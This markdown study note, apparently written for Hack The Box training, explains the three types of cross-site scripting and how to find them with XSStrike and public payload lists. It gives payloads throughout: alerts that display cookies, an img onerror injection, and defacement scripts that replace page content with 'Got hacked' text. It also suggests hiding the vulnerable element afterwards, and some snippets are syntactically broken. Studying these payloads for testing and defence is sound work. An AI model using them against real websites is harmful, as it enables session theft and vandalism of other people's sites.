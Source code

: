 ## Cross-Site Scripting (XSS)
***
### There are 3 main types of XSS
* **Stored (Persistent)** = It occurs when the user input is stored on the back-end database and then displayed 
* **Reflected  (Non-Persistent)** = Occurs when user input is displayed on the page after being processed by the backend server, without being stored
* **DOM-based **=  And lastly also a non-persistent XSS type that occurs when inserted input is shown in the browser, being completely processed on the client-side

### Stored (Persistent) XSS
#### If we input the following payload on an input field that displays what we have inserted right after (e.g., to-do list), without any sanitization,  it will execute that payload (by displaying the alert), and also store on the back-end database
```HTML
<script>alert(window.origin)</script>
```
#### More examples:
#### Display the following HTML code in plaintext 
```HTML
<plaintext></plaintext>
```
#### Pop up the browser print dialog
```HTML
<script>print()</script>
```
### Non-persistent XSS
### Reflected XSS
#### Only gets processed by the back-end server and not stored
#### So after reloading the following payload would be deleted
```HTML
<script>alert(document.cookie)</script>
```
#### To be able to attack someone we can share the URL that we made our request with the chosen payload

### DOM-based XSS
#### Data is completely processed by the client-side unlike the Reflected and the Stored XSS
#### If we try the payload above (that uses the <script> tag) we will see that won't execute in some cases. This happens because the innerHTML function , for example, does not allow the use of <script> tags as a security feature.
```HTML
<img src="" onerror=alert(document.cookie)>
```
##### Note: The use of a '#', means that is a client-side parameter


### Automated Discovery
#### Web Application Vulnerability scanners such as Nessus, Burp Pro, or ZAP, by doing active and passive scanning.
#### Open-source tools: XSS Strike and Brute XSS


#### Installing XSS Strike
````Bash
$ git clone https://github.com/s0md3v/XSStrike.git
$ cd XSStrike
$ pip install -r requirements.txt
$ python xsstrike.py
````
#### Using XSS Strike
````Bash
$ pip install -r requirements.txt
$ python xsstrike.py -u "http://<SERVER_IP:PORT>/index.php?task=test"
````
### Manual Discovery
#### Open-source payload lists
* (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md 'PayloadAllTheThings')
* (https://github.com/payloadbox/xss-payload-list 'PayloadBox')

### My Python script that sends payloads from a txt file and then compares with the page source to see if any payload was successful

### Defacing
#### Defacing a website is the act of changing its look for anyone who visits the website

### Defacement Elements
#### Some common HTML elements to change the main look of the page:
* Background Color:   document.body.style.background
* Background:  document.body.background
* Page title:  document.title
* Page text :  DOM.innerHTML
#### Also, after defacing we can remove the vulnerable element, such that it would be harder to reset the web page.

#### Changing Background
#### Color
```HTML
<script>document.body.style.background = "#FFFF"</script>
```
#### Image
```HTML
<script>document.body.style.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

#### Changing Page Title
```HTML
<script>document.title = "1337"</script>
```

#### Changing Page Text
```HTML
<script>document.getElementById("id1337") = "Got hacked by 0xlightningG1337" </script>
```
#### OR using JQUERY
```
$("#id1337").html('Got hacked by 0xlightningG1337')
```
#### Changing entire HTML code of the main body
```HTML
<script>document.getElementsByTagName("body")[0].innerHTML = "Got hacked by 0xlightningG1337" </script>
```

```HTML
<script>document.getElementsByTagName("body")[0].innerHTML = "<center> <h1 style="color: green">Got hacked by 0xlightningG1337 </h1><img src="https://www.hackthebox.eu/images/logo-htb.svg" height="42px" alt="1337"></script>
</center>"</script>
```



##### **Notes**: 
- Many contemporary web applications employ cross-domain IFrames to manage user input, which helps protect the main application from XSS vulnerabilities. By using an IFrame, even if the form itself is vulnerable to XSS, the risk does not extend to the main application. Instead of displaying a fixed value like "1" in the alert box, showing the value of *'window.origin'* is more informative. Revealing the URL where the script is being executed. 
- It can also be injected into HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page)